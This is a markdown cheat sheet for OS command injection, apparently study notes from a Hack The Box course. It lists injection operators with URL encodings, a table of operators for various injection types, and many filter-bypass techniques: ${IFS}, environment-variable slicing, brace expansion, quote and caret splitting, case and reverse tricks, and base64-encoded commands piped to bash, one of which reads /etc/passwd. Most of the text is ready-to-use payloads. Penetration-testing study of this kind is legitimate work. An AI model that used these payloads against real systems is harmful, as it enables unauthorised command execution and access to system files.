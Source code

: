 ## Command Injection Methods

To inject an additional command to the intended one, we may use any of the following operators:

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

#### IF the DOM - FrontEnd is preventing us from setting the payload, use BurpSuite

| **Injection Type**                      | **Operators**                                     |
| --------------------------------------- | ------------------------------------------------- |
| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        | `\n` `\r\n` `\t` `%0d` `%0a` `%09`                |

#### If we get "invalid input" may be because of blacklisted characters. We must try all of them.

#### If we get the proper output with not the payload means that has not been blacklisted.

## IF Space is blacklisted use Tabs = %09
## Or using ${IFS} which commonly has as a default an space or tab.

#### Using Brace Expansion
```shell-session
$ {ls,-la}
```

Example payload to exeute ls -la:
```
127.0.0.1%0a{ls,-la}
```

(not adding echo) -> obtain /
```shell-session
$ echo ${PATH:0:1}

/
```
```shell-session
$ echo ${LS_COLORS:10:1}

;
```

```shell-session
127.0.0.1${LS_COLORS:10:1}${IFS}
```

```cmd-session
C:\htb> echo %HOMEPATH:~6,-11%

\
```
```powershell-session
$env:HOMEPATH[0]

\
```

```shell-session
$ man ascii     # \ is on 92, before it is [ on 91
$ echo $(tr '!-}' '"-~'<<<[)

\
```

ls -la /
```
%0a{ls,-la,${PATH:0:1},${IFS}home}
```

ls -la /home
```
ip=127.0.0.1%0a{ls,-la,${PATH:0:1}home}
```

## Commands Blacklist Bypass
Windows and Linux:
```shell-session
$ w'h'o'am'i
```
```shell-session
$ w"h"o"am"i
```

Linux Only:
```bash
who$@ami
```

Windows Only:
```cmd-session
C:\htb> who^ami
```

```
ip=127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

## Advanced Command Obfuscation
```powershell-session
PS C:\htb> WhOaMi
```
```shell-session
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
```bash
$(a="WhOaMi";printf %s "${a,,}")
```

```shell-session
$ echo 'whoami' | rev
```
```shell-session
$ $(rev<<<'imaohw')
```

```powershell-session
PS C:\htb> "whoami"[-1..-20] -join ''

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```

```shell-session
$ echo -n 'cat /etc/passwd | grep 33' | base64
```
```shell-session
$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

```powershell-session
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

```shell-session
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base6
```

```powershell-session
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```